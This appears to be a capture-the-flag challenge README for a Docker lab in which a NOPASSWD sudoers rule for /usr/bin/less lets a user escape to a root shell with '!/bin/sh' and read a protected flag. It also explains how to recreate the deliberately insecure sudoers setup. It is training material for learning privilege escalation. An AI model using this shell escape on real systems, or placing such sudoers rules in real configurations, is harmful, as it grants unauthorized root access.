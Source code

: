 # Misconfigured Sudoers (Challenge 5)

## Description
A misconfigured sudoers rule allows the user to run `/usr/bin/less` as root without a password. This can be exploited to gain a root shell and read the flag.

# Solution
1. Connect to the container:
   ```bash
   docker exec -it challenge5 bash
   ```
2. Check sudo privileges:
   ```bash
   sudo -l
   ```
   You will see that `ctfuser` can run `/usr/bin/less` as root without a password.
3. Run less as root on any readable file:
   ```bash
   sudo /usr/bin/less /etc/hosts
   ```
4. Inside `less`, type:
   ```
   !/bin/sh
   ```
   and press Enter to spawn a root shell.
5. From the root shell, read the flag:
   ```bash
   cat /root/flag.txt
   ```

# Recreating this challenge
1. Create a working directory `challenge5` with a subfolder `app`.
2. Place `flag.txt` in the build context with the desired flag. This will be copied into `/root/flag.txt` with `chmod 600`.
3. Create a sudoers snippet (`ctfuser_sudoers`) containing:
   ```
   ctfuser ALL=(ALL) NOPASSWD: /usr/bin/less
   ```
4. Write a Dockerfile based on `ubuntu:20.04` or similar:
   - Create user `ctfuser`.
   - Install `sudo` and `less`.
   - Copy `flag.txt` to `/root/flag.txt` and set permissions.
   - Copy the sudoers snippet to `/etc/sudoers.d/` with mode `0440`.
   - Set `ctfuser` as the default user and keep the container running.
5. Build the image and run the container.
